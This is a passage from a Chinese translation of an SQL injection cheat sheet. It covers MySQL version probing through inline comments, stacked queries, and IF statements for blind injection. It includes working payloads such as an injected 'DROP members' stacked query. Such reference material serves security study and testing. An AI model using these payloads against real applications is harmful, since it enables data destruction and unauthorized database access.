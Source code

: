 #### MySQL版本探测攻击样例

> `SELECT /*!32302 1/0, */ 1 FROM tablename`

如果MySQL的版本高于**3.23.02**，会抛出一个`division by 0 error`

> ID:`/*!32302 10*/`
> 
> ID:`10`

如果MySQL版本高于3.23.02，以上两次查询你将得到相同的结果

### 堆叠查询(Stacking Queries)

**一句代码之中执行多个查询语句**，这在每一个注入点都非常有用，尤其是使用SQL Server后端的应用

*   `;`(S)`SELECT * FROM members; DROP members--`结束一个查询并开始一个新的查询

#### 支持堆叠查询的语言/数据库

**绿色：**支持，**暗灰色：**不支持，**浅灰色：**未知

![enter image description here](http://drops.javaweb.org/uploads/images/7eba77f1e9332de0158f5a1ae5de6ca3a1526df1.jpg)

#### 关于MySQL和PHP

阐明一些问题。

**PHP-MySQL不支持堆叠查询**，Java不支持堆叠查询（ORACLE的我很清楚，其他的就不确定了）。一般来说MySQL支持堆叠查询，但由于大多数PHP-Mysql应用框架的数据库层都不能执行第二条查询，或许MySQL的客户端支持这个，我不确定，有人能确认一下吗？

_（译者注：MySQL 5.6.20版本下客户端支持堆叠查询）_

#### 堆叠注入攻击样例

> ID:`10;DROP members --`

构成语句：`SELECT * FROM products WHERE id = 10; DROP members--`

这在执行完正常查询之后将会执行DROP查询。

### If语句

根据If语句得到响应。这是**盲注(Blind SQL Injection)的关键之一**，同样也能简单而**准确地**进行一些测试。

#### MySQL的If语句

*   `IF(condition,true-part,false-part)`(M)
    
    > `SELECT IF (1=1,'true','false')`
    

#### SQL Server的If语句

*   `IF condition true-part ELSE false-part`(S)
    
    > `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
    

#### 使用了If语句的注入攻击样例
